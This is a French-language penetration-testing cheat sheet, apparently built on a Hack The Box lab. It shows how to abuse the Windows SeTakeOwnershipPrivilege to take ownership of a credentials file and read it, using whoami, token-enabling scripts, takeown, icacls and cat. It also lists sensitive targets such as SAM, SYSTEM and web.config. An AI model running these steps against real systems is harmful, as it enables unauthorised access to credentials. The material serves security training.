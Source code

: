 # SeTakeOwnershipPrivilege

### <mark style="color:red;">**Description**</mark>

{% hint style="warning" %}
Le privilège **SeTakeOwnershipPrivilege** permet à un utilisateur de prendre la propriété de n'importe quel objet sécurisable sur le système, comme des objets Active Directory, des fichiers NTFS, des clés de registre, des services, etc. Ce privilège accorde des droits **WRITE\_OWNER** sur un objet, ce qui permet à l'utilisateur de changer le propriétaire de l'objet dans son descripteur de sécurité. Les administrateurs sont généralement affectés à ce privilège par défaut.
{% endhint %}

***

#### <mark style="color:green;">**Commandes et Utilisation**</mark>

**Vérification des Privilèges de l'Utilisateur**

```bash
whoami /priv
```

```
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
```

***

<mark style="color:green;">**Activation du Privilège SeTakeOwnershipPrivilege**</mark>

1. **Importer le module d'activation** :

```bash
Import-Module .\Enable-Privilege.ps1
```

2. **Activer tous les privilèges** :

```bash
.\EnableAllTokenPrivs.ps1
```

3. **Vérification de l'activation** :

```bash
whoami /priv
```

***

<mark style="color:green;">**Prendre la Propriété du Fichier**</mark>

```bash
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

***

<mark style="color:green;">**Vérification de la Propriété Après Modification**</mark>

```bash
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

***

<mark style="color:green;">**Modification de l'ACL (Liste de Contrôle d'Accès)**</mark>

Si vous n'avez toujours pas l'accès complet au fichier, modifiez les ACL pour obtenir l'accès en lecture :

```bash
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

***

<mark style="color:green;">**Lecture du Fichier**</mark>

```bash
cat 'C:\Department Shares\Private\IT\cred.txt'
```

***

#### <mark style="color:green;">**Exemples de Fichiers Ciblés**</mark>

* **c:\inetpub\wwwwroot\web.config**
* **%WINDIR%\repair\sam**
* **%WINDIR%\repair\system**
* **%WINDIR%\repair\software**
* **%WINDIR%\system32\config\SecEvent.Evt**

***
